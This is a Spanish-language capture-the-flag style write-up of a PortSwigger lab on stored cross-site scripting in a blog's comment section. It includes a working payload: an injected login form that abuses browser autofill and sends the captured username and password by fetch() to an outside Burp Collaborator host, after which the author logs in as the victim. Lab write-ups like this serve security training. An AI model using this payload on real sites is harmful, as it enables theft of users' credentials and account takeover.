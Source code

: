 ```yaml
---
title: XSS Lab 23
date: 2025-01-18 12:25:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - XSS
tags:
  - XSS
  - Exploiting cross-site scripting to capture passwords
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Skills

- Exploiting cross-site scripting to capture passwords

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `vulnerabilidad` de `stored XSS` en la función de `comentarios del blog`. Un usuario `víctima` simulado ve todos los `comentarios` después de que se publiquen. Para `resolver` el laboratorio, debemos `explotar` la `vulnerabilidad` para `exfiltrar` el `nombre de usuario` y la `contraseña` de la víctima, luego usar estas `credenciales` para `iniciar sesión` en la cuenta de la víctima

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XSS-Lab-23/image_1.png)

Si pulsamos sobre `View post` vemos que tenemos una `sección` en la que podemos hacer `comentarios`

![](/assets/img/XSS-Lab-23/image_2.png)

Al hacer un `comentario` nos mete el `input` en unas `etiquetas <p></p>`

![](/assets/img/XSS-Lab-23/image_3.png)

Sin embargo, si intentamos `inyectar` algo entre `etiquetas <h1></h1>` vemos que nos `inyecta` las `etiquetas` con su `contenido` y deja las `<p></p>` vacías

![](/assets/img/XSS-Lab-23/image_4.png)

Si nos `abrimos` el `inspector` de `Chrome` y le echamos un vistazo a las `cookies` vemos que tienen las `flags (HttpOnly y Secure)`. `HttpOnly` nos `impide acceder a la cookie a través de JavaScript` y `Secure nos obliga a que la cookie solo se transmita a través de conexiones seguras HTTPS`

![](/assets/img/XSS-Lab-23/image_5.png)

Debido a que podemos `inyectar código HTML` podemos `crear` un `formulario` y `aprovechar` el `autocompletado` del `navegador` para `obtener` las `credenciales`. En esta web [https://developer.mozilla.org/en-US/docs/Web/HTML/Attributes/autocomplete](https://developer.mozilla.org/en-US/docs/Web/HTML/Attributes/autocomplete) nos `detalla` como podemos usar el `atributo autocomplete` y los `requerimientos necesarios` para que se `ejecute correctamente`. El `atributo autocomplete` a parte de `on` y `off` tiene varios valores interesante los cuales se pueden ver accediendo a la web mencionada anteriormente, entre estos valores están `username`, `nickname`, `new-password`, `current-password` y `email` entre otros. He creado este `formulario` se aprovecha del `autocompletado` del `navegador` para `obtener` las `credenciales` del `usuario administrador`

```
<form action="#" method="post">
  <input type="text" id="loginUsername" name="username" autocomplete="on" placeholder="Introduce tu nombre de usuario" required>
  <input type="password" id="loginPassword" name="password" autocomplete="on" placeholder="Introduce tu contraseña" required onchange="
    if(this.value.length) {
      fetch('https://7t1e3i5rp0jhqj79js8c833qchi8aw0kp.oastify.com', {
        method: 'POST',
        mode: 'no-cors',
        body: loginUsername.value + ':' + this.value
      });
    }
  ">
  <button type="submit">Enviar</button>
</form>
```

Una vez `publicado` este `comentario` nos vamos a `Burpsuite Collaborator` y `obtenemos` el `nombre` de `usuario` y la `contraseña` de los `usuarios`

![](/assets/img/XSS-Lab-23/image_6.png)

Pulsamos sobre `My account` y nos `logueamos` con las `credenciales`

![](/assets/img/XSS-Lab-23/image_7.png)

